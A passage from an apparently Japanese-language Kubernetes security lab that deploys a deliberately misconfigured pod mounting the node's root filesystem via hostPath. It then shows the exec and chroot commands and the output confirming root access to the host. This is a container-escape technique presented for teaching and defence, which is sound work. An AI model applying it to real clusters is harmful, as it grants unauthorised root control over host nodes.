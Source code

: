 まず `lab2` ディレクトリに移動します。  

```bash
cd lab2
```

GKE クラスタに以下の不適切な設定の Pod をデプロイします。  
一見して普通の Pod のようにみえますが、hostpath を使ってホストのルートディレクトリをマウントしようとしています。  

```yaml
# bad-pod.yaml
apiVersion: v1
kind: Pod
metadata:
  labels:
    app: bad-pod
  name: bad-pod
spec:
  volumes:
  - name: host-fs
    hostPath:
      path: /
  containers:
  - image: ubuntu
    imagePullPolicy: Always
    name: bad-pod
    command: ["/bin/sh", "-c", "sleep infinity"]
    volumeMounts:
      - name: host-fs
        mountPath: /root
  restartPolicy: Never
```

では実際にデプロイしてみます。  

```bash
kubectl apply -f bad-pod.yaml
```

以下コマンドを実行し `bad-pod` に入ってみます。  
```bash
kubectl exec bad-pod -it -- bash
```

ホストの `/` にルートディレクトリを変更します。  
```bash
chroot /root /bin/bash
```

bad-pod から以下コマンドを実行します。  
```bash
id
ls
```

以下のようにホストの領域に root ユーザーとして入れていることが分かります。  
```
bad-pod / # id
uid=0(root) gid=0(root) groups=0(root)
bad-pod / # ls
bin  boot  dev  etc  home  lib  lib64  lost+found  mnt  opt  postinst  proc  root  run  sbin  sys  tmp  usr  var
```
